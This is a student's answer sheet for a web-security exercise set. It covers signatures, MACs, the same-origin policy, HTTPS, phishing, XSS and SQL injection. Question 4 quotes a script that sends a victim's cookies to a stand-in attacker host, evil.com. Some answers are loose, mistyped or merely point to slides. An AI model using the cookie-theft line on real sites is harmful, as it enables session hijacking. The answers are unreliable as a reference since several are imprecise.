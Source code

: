 # Exercises sheet 3

1. Barack often sends funny jokes to Hillary. He does not care about confidentiality of these messages but wants to get credit for the jokes and prevent Bill from claiming authorship of or modifying them. How can this be achieved using public-key cryptography?

	**ANS:** Barack can sign jokes with his private key.

2. As public-key cryptography is computationally intensive and drains the battery of Barack’s device, he comes up with an alternative approach. First, he shares a secret key k with Hillary but not with Bill. Next, together with a joke x, he sends over the value d = h(k||x), where h is a cryptographic hash function. Does value d provide assurance to Hillary that Barack is the author of x and that x was not modified by Bill? Justify your answer.

	**ANS:** Yes. As `k` is shared only between Hillary and Barack, no one can produce a valid d without knowing `k`. Also crypto hash are irreversible, Bill can not learn the secret `k` from d. See massege authentication code MAC slides.

3. Barack periodically comes up with brilliant ideas to stop the financial crisis, provide health care to every citizen, and save the polar bears. He wants to share these ideas with all the cabinet members but also get credit for the ideas. Extending the above approach, he shares a secret key k with all the cabinet members. Next, he broadcasts each idea z followed by value h(k||z). Does this approach work or can Tim claim that he came up with the ideas instead of Barack? Justify your answer.

	**ANS:** This approach does not work as every member of cabinet has the secret `k` and thus is capable of creating the hash, i..e Tim can also claim that z is created by him.

4. Suppose that you accedently visit a malicious site www.evil.com, which contains a JavaScript to access cookies related to your e-shopping site buy-all.bz as follows:
`<script>
img = new Image();
img.src = "http://www.evil.com/steal.php?cookie=" + document.cookie;
</script>`. Will that be successful?

	**ANS:** No. Becuase of SOP, evil.com will not be able to access the cookies related to buy-all.bz.

5. Which of the following security goals are addressed by the HTTPS protocol: (a) privacy, (b) confidentiality, (c) availability.

	**ANS:** b

6. Is it possible for an attacker to performa phishing attack if the client is using HTTPS? Why or why not?

	**ANS:** Phishing can involved tricks that range from ebing very simple, like asking your credit cards details to sophisticated ones, like redirecting you to a spoofed site. HTTPS can prevent when it comes to site identity with the help of digital certificates. In other simpler cases, it may not be useful.

7. Explain why, in general, a web server should not be allowed access to cookies set by another web server.

	**ANS:** see slides on same origin policy.
8. Summarize the difference between persistent and non-persistent cross-site scripting attacks.

	**ANS:** se slides. Among other differences, one important one is that in the case of non-persistent (reflective), the attacker has to find each individual victim and send her/him the malicious link, whereas in the case of persistant, all an attacker has to do is to just poison the server.
9. Explain why input validation mitigates the risks of SQL injection attacks.

	**ANS:** to clean the input that may contain some specal characters, like single quote.
